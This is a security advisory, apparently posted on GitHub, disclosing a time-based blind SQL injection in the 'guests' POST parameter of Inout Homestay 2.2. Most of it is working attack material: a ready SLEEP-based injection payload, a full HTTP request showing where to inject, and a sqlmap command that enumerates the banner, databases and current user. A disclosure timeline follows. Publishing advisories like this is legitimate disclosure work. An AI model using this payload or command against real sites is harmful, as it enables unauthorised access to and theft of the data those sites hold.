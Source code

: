 # Information
```
Vulnerability Name  : Remote Blind SQL Injections in Inout Homestay
Product             : Inout Homestay
version             : 2.2
Date                : 2022-05-26
Vendor Site         : https://www.inoutscripts.com/products/inout-homestay/
POC                 : https://github.com/bigb0x/CVEs/blob/main/Inout-Homestay-2-2-sqli.md
CVE-Number          : In Progess
Exploit Author      : Mohamed N. Ali @MohamedNab1l
```
<br>

# Description
<br>

Inout Homestay Version 2.2 suffers from time-based blind SQL injection. POST parameters "guests" is vulnerable to SQL imjection attacks.This will allow remote non-authenticated attackers to inject SQL code. This could result in full information disclosure.
<br>

## Vulnerable Parameter: guests (POST)

<br>

Vulnerability: time-based blind SQL injection in guests (POST) parameter.
Vulnerabile file: index.php
<br>

Payload: address=3137 Laguna Street&guests=1' AND (SELECT 1769 FROM (SELECT(SLEEP(5)))XPZb) AND
'ADfU'='ADfU&indate=01/01/1967&lat=1&location=1&long=1&outdate=01/01/1967&searchcity=San Francisco&searchstate=NY

<br>

### HTTP Post Request
`
POST /index.php?page=search/rentals HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://inout-homestay.demo.inoutscripts.net/
Cookie: currencyid=10; currencycode=BYR; language=2; io_lang_code=es
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 189
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
Host: vlun-host.com
Connection: Keep-alive
address=3&guests=-1 [inject_sql_here]&indate=01/01/1967&lat=1&location=1&long=1&outdate=01/01/1967&searchcity=San%20Francisco&searchstate=NY
`
<br>
### POC: sqlmap command:
`
python sqlmap.py -r homestay.txt  -p guests --dbms=MySQL --banner --random-agent --current-db --dbs --current-user
`
<br>

### output:

<br>
<img src="./resources/homestay-sqlmap3.png">
<br>
<img src="./resources/homestay-sqlmap4.png">
<br>


## Timeline
```
2022-05-03: Discovered the bug
2022-05-03: Reported to vendor
2022-05-22: Advisory published
```

<br>

## Discovered by
```
Mohamed N. Ali
@MohamedNab1l
ali.mohamed[at]gmail.com

```
